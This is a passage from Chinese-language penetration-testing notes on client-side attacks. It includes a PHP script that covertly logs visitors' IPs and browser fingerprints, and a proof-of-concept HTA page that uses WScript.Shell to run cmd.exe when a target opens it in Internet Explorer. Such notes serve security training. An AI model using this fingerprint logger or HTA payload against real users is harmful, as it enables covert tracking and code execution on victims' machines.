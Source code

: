 然后加入后端代码` /fp/js.php`。`/var/www/html/fp/fingerprint.txt`存放的是输出的信息

```php
<?php
$data = "Client IP Address: " . $_SERVER['REMOTE_ADDR'] . "\n";
$data .= file_get_contents('php://input');
$data .= "---------------------------------\n\n";
file_put_contents('/var/www/html/fp/fingerprint.txt', print_r($data, true), FILE_APPEN
D | LOCK_EX);
?>
```

用户访问网页后，会在后端将指纹信息存入文件

如果同时，我们应该将网站目录权限赋予服务器用户`sudo chown www-data:www-data fp`

## 利用html程序

> 当我们创建一个html网页时，如果后缀名使用.hta，则ie会自动认为文件是一个html程序，并且允许使用mshta.exe，这将允许程序从ie直接执行而不是进行下载。并且如果用户允许，则在执行时可以使用这个用户的权限去执行任意代码。
>
> 这只对IE及部分Eege浏览器生效。同时它与陈旧且不安全的ActiveX技术兼容。

### 概念验证

利用ActiveXObjects执行命令行

poc.hta:

```html
<html>
	<body>
		<script>
     		var c= 'cmd.exe'
     		new ActiveXObject('WScript.Shell').Run(c);
		</script>
	</body>
</html>
```

一旦目标浏览网页，将弹出运行提示

![image-20200514090036072](assets/6.客户端攻击.assets/image-20200514090036072.png)
